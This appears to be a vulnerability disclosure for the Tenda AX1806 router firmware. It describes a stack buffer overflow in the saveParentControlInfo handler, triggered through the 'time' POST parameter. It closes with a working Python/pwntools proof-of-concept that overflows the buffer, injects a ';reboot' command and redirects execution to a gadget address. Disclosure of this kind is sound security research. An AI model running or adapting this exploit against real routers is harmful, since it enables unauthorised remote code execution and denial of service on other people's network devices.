 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html

There is a stack buffer overflow vulnerability in the `saveParentControlInfo` function.

First， this function calls the sub_60BE0 function.

![image-20220209004540591](image/1.png)

In the sub_60BE0 function, the `v12` variable is directly retrieved from the http request parameter `time`.

![image-20220209004630375](image/2.png)

Then `v12` will be splice to stack by function sscanf without any security check, which causes stack overflow.

So by POSTing the page `/goform/saveParentControlInfo` with proper `time`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

The exploit of **Remote Code Execution**:

```python
from pwn import*
import requests

url = "https://192.168.2.1/goform/saveParentControlInfo"

gadget = 0x37208

time =  b"a" * 0x58
time += b";reboot" # command you want to execute
time += b"-"
time += b"b" * 0x34
time += p32(gadget)

r = requests.post(url, data = {"time":time},verify=False )

```
